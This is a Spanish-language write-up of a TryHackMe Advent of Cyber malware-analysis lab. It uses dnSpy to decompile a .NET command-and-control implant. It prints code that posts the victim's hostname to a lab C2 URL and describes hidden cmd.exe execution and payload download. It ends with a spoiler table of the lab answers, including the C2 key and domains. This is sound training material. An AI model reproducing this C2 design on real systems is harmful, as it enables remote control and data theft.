










# Advent of Cyber Día 9: Malware analysis

## Introducción

En el día de hoy se va a trabajar con el malware del día previo, se sabe que fué creado en .NET por lo que vamos a utilizar la herramienta **dnSpy** para *decompilarlo*.

Se da también una introducción a como funcionan los binarios de .NET y lo básico de C#, pero como ya tengo experiencia en el tema opto por no agregarlo.

## Objetivos de aprendizaje

- Aprender lo básico del análisis de malware de manera segura.
- Aprender las bases de los binarios de .NET.
- Aprender a utilizar dnSpy.
- Armar una metodología para el análisis del código fuente del malware.

## Análisis de malware de manera segura

Teniendo en cuenta que el malware es software específicamente creado con el objetivo de hacer daño, es esencial tomar las precauciones adecuadas para su análisis. A continuación se hablará del concepto de **sandboxing**.

Una **sandbox** es una computadora emulada que actúa como si fuera un dispositivo real. Es un entorno seguro para que los expertos puedan trabajar con elementos maliciosos sin preocuparse por las consecuencias.  
Generalmente el entorno de la **sandbox** contiene lo siguiente:

- **Controles de red**: para limitar y monitorear el tráfico de red que genera el malware. También impide que el mismo se propague.
- **Virtualización**: para emular un entorno real, se utilizan tecnologías como VMware, VirtualBox o Hyper-V. Estas herramientas facilitan en análisis ya que, entre otras cosas, permiten realizar snapshots y resets del sistema emulado.
- **Monitoreo y logging**: las sandboxes tienen logs detallados de las actividades que genera el malware, como por ejemplo la interacción con el sistema, el tráfico de red y la modificación de archivos.

## Command and control

Refiere a un sistema centralizado o infraestructura que los actores maliciosos utilizan para controlar o interactuar con las distintas máquinas que tengan comprometidas. Sirve como un canal mediante el cual los actores envían comandos a las entidades controladas, haciéndoles ejecutar distintas tareas como por ejemplo: el robo de información, vigilancia o propagar aún más el malware.


Para entrar más en detalle, el malware que tenga cualidades de C2 generalmente muestra el siguiente comportamiento:

1. **Peticiones HTTP**: los servidores C2 generalmente se comunican con las máquinas comprometidas mediante peticiones HTTP, las mismas pueden utilizarse para enviar comandos o recibir información.
2. **Ejecución de comandos**: es el comportamiento más común, le permite a los atacantes ejecutar comandos del sistema dentro de la máquina comprometida.
3. **Sleep o delay**: para evitar ser detectado, los actores maliciosos generalmente le agregan al malware instrucciones de reposo, por ejemplo que cada cierto tiempo entren en *sleep*, durante este periodo el malware no realiza ninguna tarea y solo se volverá a conectar al servidor C2 cuando pase el tiempo especificado.

## Decompilando con dnSpy

**dnSpy** es un editor y debugger de ensamblados .NET. Se lo utiliza generalmente para realizar ingeniería inversa, analizar y manipular aplicaciones hechas en C#.

El proceso de análisis varía depende el caso, acá nos recomiendan comenzar por el punto de entrada del programa (`Main`). Una vez visto muy por arriba recomiendan analizar cada una de las funciones y por último volver otra vez a `Main`, ya con toda la información de las funciones extras.

## Resolución

### Primer vistazo a `Main`



### Análisis de las funciones

#### `GetIt`

Se encarga de realizar una petición HTTP a una URL remota, por defecto la petición es `GET`, y devuelve el resultado de la misma.



#### `PostIt`

Realiza una petición HTTP con método POST, donde el valor enviado corresponde al segundo parámetro de la función y devuelve la respuesta.



#### `Sleeper`

Pausa la ejecución del malware para evitar ser detectado.



#### `ExecuteCommand`

Inicializa un nuevo proceso y ejecuta `cmd.exe` con el argumento enviado por parámetro. También especifica que el proceso corra de manera oculta, sin una ventana, mediante `Process.WindowStyle.Hidden`.



#### `Encryptor`

THM no entra en detalle sobre el tema criptográfico, a grandes rasgos explica que esta función encripta una `string` usando un **AES cipher** y devuelve su valor encoded en base 64.



#### `Decryptor`

Al igual que en `Encryptor` acá tampoco se entra en detalle sobre la criptografía. Esta función recibe una `string` en base 64, la decodea y devuelve su valor desencriptado.



#### `Implant`

Recibe una URL, inicializa una petición HTTP y la decodea en base 64. Obtiene la ruta `APPDATA` y trata de escribir los contenidos decodeados en un archivo, si logra hacerlo retorna su dirección, caso contrario retorna una cadena vacía.



### Armando el execution pipeline

Ya con la información de todas las funciones podemos volver a `Main`, analizar su funcionamiento y separarlo en etapas.

#### Etapa de definición

Se da previo al loop y podemos detallarlo de la siguiente manera:

```csharp
// 1. Retrieves the victim machine's hostname via Dns.GetHostName function and stores it to a variable.
string hostName = Dns.GetHostName();

// 2. Init of HTTP URL together with the data to be submitted to the /reg endpoint.
string str = "http://REDACTED C2 DOMAIN";
string url = str + "/reg";
string data = "name=" + hostName;

// 3. Execution of the HTTP POST request to the target URL (str variable) together with the POST data that contains the hostname of the victim machine (data variable).
// It is also notable that the response from the HTTP request is being stored in another variable (str2)
string str2 = Program.PostIt(url, data);

// 4. Init of other variables, which will be used in the following code lines.
int count = 15000;
bool flag = false;
```

#### Etapa de loop

Al no tener límites definidos, el loop se ejecuta hasta que se llega al `break`. En esta etapa se da la ejecución de la mayoría de las funciones detalladas previamente, según la orden recibida se ejecuta una u otra.  
Como se puede ver en el código, la ejecución depende de si `GetIt` devuelve algo.



Y en la siguiente tabla podemos ver el resumen de las distintas instrucciones que contemplan los ifs.



#### Etapa de cierre

Como se explicó previamente, el loop de ejecución no tiene un límite definido, por lo que la ejecución del loop y por consiguiente del programa continúan hasta llegar al `break`, el cual depende de `flag`.

```csharp
if (flag)
{
    break;
}
```

En resumen, si `flag` es `true` la ejecución del malware termina.

### Respuesta

<details>
<summary>Spoiler</summary>
<table>
  <thead>
    <tr>
      <th style="text-align:center">Información</th>
      <th style="text-align:center">Valor</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:center">HTTP User-Agent</td>
      <td style="text-align:center"><code>Mozilla/5.0 (Macintosh; Intel Mac OS X 14_0) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Safari/605.1.15</code></td>
    </tr>
    <tr>
      <td style="text-align:center">HTTP method</td>
      <td style="text-align:center"><code>POST</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Clave de encriptado y desencriptado</td>
      <td style="text-align:center"><code>youcanthackthissupersecurec2keys</code></td>
    </tr>
    <tr>
      <td style="text-align:center">HTTP URL</td>
      <td style="text-align:center"><code>http://mcgreedysecretc2.thm/reg</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Tiempo de sleep en segundos</td>
      <td style="text-align:center"><code>15</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Comando utilizado por el hacker para ejecutar comandos de sistema via cmd.exe</td>
      <td style="text-align:center"><code>shell</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Dominio utilizado para descargar binario</td>
      <td style="text-align:center"><code>stash.mcgreedy.thm</code></td>
    </tr>
  </tbody>
  </tbody>
</table>
</details>

### [Volver a inicio](../../README.md)
